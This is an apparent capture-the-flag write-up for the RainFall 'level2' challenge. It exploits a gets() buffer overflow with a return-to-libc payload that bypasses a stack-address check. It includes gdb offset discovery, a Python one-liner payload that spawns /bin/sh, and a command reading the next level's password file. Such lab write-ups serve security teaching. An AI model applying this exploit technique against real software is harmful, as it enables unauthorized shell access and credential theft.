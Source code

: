 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level2
disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```


We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
ldd ./level2 | grep libc
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
```
Next, we find the address of the ret instruction:
```
0x804853e <p+106>:	ret
```
We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
level2@RainFall:~$ gdb ./level2 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```
We find that the buffer size is 80

Next, we need to construct the payload to exploit the vulnerability using the following format:
```
buffer + return address + system function address + fake return address + "/bin/sh" address from libc
```
```
$ python -c 'print "A" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "4242" + "\x35\xf9\xff\xbf"' > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass
```
